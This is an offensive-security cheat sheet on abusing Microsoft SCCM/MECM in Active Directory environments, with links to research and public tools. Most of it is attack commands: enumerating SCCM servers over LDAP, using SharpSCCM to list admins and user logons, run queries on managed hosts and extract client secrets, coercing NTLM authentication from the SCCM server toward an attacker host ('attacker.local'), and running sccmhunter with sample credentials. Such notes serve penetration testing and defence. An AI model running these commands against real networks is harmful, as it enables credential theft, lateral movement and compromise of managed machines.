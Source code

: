 ```yaml
---
description: System Center Configuration Manager / Microsoft Endpoint Configuration Manager
---
```


# SCCM Abuse

- [https://www.thehacker.recipes/ad/movement/sccm-mecm](https://www.thehacker.recipes/ad/movement/sccm-mecm)
- [https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- [https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts](https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts)
- [https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/](https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/)
- [https://http418infosec.com/offensive-sccm-summary](https://http418infosec.com/offensive-sccm-summary)

{% embed url="https://github.com/subat0mik/Misconfiguration-Manager/blob/main/README.md#sccm-attack-matrix" caption="Misconfiguration Manager / SCCM Attack Matrix" %}




## Enumeration

Look for CcmExec.exe processes:

```
Cmd > tasklist | findstr CcmExec
```

Search for SCCM servers in LDAP:

```
PV3 > Get-DomainComputer -LDAPFilter "(&(objectClass=computer)(cn=*sccm*))" | select -ExpandProperty dnsHostName
PV3 > Get-DomainComputer | ? {$_.Name -like "*sccm*"} | select -ExpandProperty dnsHostName
```

## VNC-like Remote Control (CmRcViewer Abuse)

- [https://www.netero1010-securitylab.com/red-team/abuse-sccm-remote-control-as-native-vnc](https://www.netero1010-securitylab.com/red-team/abuse-sccm-remote-control-as-native-vnc)
- [https://github.com/netero1010/SCCMVNC](https://github.com/netero1010/SCCMVNC)




## Tools



### MalSCCM

- [https://labs.nettitude.com/blog/introducing-malsccm/](https://labs.nettitude.com/blog/introducing-malsccm/)
- [https://github.com/nettitude/MalSCCM](https://github.com/nettitude/MalSCCM)



### sccmwtf

- [https://blog.xpnsec.com/unobfuscating-network-access-accounts/](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)
- [https://github.com/xpn/sccmwtf](https://github.com/xpn/sccmwtf)



### SharpSCCM

- [https://github.com/Mayyhem/SharpSCCM](https://github.com/Mayyhem/SharpSCCM)
- [https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/](https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/)

Get SMS (Systems Management Server) and SC (Site Code):

```
Cmd > SharpSCCM.exe local site-info
```

List SCCM admins:

```
Cmd > SharpSCCM.exe get admins -sms <SMS> -sc <SC>
```

List user latest logons (automated in [sccmhound](https://github.com/CrowdStrike/sccmhound)):

```
Cmd > SharpSCCM.exe get class-instances -sms <SMS> -sc <SC> SMS_R_System -p Name -p DistinguishedName -p IPAddresses -p LastLogonUserDomain -p LastLogonUserName -p LastLogonTimestamp -w "LastLogonUserName LIKE '%snovvcrash%'"
Cmd > SharpSCCM.exe get devices -p Name -p DistinguishedName -p IPAddresses -p LastLogonUserDomain -p LastLogonUserName -p LastLogonTimestamp -u snovvcrash@megacorp.local
```

Get resource (server) ID:

```
Cmd > SharpSCCM.exe get resource-id -sms <SMS> -sc <SC> -d <RESOURCE>
```

Execute WMI command on a resource:

```
Cmd > SharpSCCM.exe invoke admin-service -sms <SMS> -sc <SC> -q "EventLog('Security',4h) | where EventID == 4624 | order by DateTime desc" -r <ID>
```

Grab secrets from SCCM client (locally):

```
Cmd > SharpSCCM.exe local secrets -m disk
```

Coerce authentication from SCCM server (remotely):

```
Cmd > SharpSCCM.exe invoke client-push -t attacker.local
```



### sccmhunter

- [https://github.com/garrettfoster13/sccmhunter/wiki](https://github.com/garrettfoster13/sccmhunter/wiki)

Install:

```
$ pipx install -f "git+https://github.com/garrettfoster13/sccmhunter.git"
```

List user latest logons:

```
$ sccmhunter.py admin -u sccm_admin -p 'Passw0rd!' -ip SCCM.megacorp.local
$ get_lastlogon administrator
```
